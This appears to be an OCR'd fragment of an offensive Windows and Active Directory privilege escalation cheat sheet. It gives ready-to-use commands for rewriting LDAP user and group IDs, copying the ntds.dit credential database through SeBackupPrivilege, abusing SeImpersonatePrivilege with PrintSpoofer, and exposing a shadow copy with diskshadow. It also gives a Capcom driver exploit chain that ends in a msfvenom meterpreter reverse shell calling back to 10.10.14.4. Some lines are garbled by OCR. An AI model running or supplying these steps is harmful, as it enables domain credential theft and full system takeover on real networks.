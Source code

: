 ```text
objectClass: ldapPublicKey
-
add: sshPublicKey
sshPublicKey: content of id_rsa.pub
-
replace: EVIL GROUP ID
uidNumber: CURRENT USER ID
-
replace: EVIL USER ID
gidNumber: CURRENT GROUP ID
```

### Copy from ndts using SeBackupPrivilege permission

```text
import-module .\SeBackupPrivilegeUtils.dll
import-module .\SeBackupPrivilegeCmdLets.dll
Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\temp\ndts.dit
```

### Elevate access with the SeImpersonatePrivilege permission

```text
https://github.com/dievus/printspoofer
printspoofer.exe -i -c "powershell -c whoami"
```

### Read files without authentication with diskshadow

```text
1. priv.txt contain
SET CONTEXT PERSISTENT NEWSWRITERSp
add volume c: alias 0xprashantp
createp
expose %0xprashant% z:p
2. exec with diskshadow /s priv.txt
```

### Elevate access with the SeLoadDriverPrivilege permission

```text

FIRST:
Download https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
Download https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp
Download https://github.com/tandasat/ExploitCapcom
change ExploitCapcom.cpp line 292
TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
to
TCHAR CommandLine[] = TEXT("C:\\test\\shell.exe");
then compile ExploitCapcom.cpp and eoploaddriver.cpp to .exe

SECOND:
1. msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f exe > shell.exe
2. .\eoploaddriver.exe System\CurrentControlSet\MyService C:\test\capcom.sys
3. .\ExploitCapcom.exe
4. in msf exec `run`
```
